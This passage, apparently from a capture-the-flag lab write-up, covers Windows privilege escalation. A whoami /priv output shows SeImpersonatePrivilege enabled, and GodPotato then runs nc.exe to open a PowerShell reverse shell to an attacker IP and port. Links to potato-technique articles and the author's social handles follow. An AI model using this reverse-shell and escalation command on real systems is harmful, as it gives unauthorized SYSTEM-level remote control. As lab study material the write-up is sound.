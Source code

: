 ```powershell
PS C:\> whoami /priv

SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```
So we can try a Potato like GodPotato, upload him and nc on the target machine :

```powershell
PS C:\temp> ./GodPotato-NET4.exe -cmd "cmd /c C:\temp\nc.exe 10.8.2.163 1234 -e powershell"
```
![alt text](../assets/image_sendai/6er.png)

Some links here : [https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71](https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71)

[https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

If you have any questions you can dm me on discord : 'ethicxz.' or on instagram : 'eliott.la'
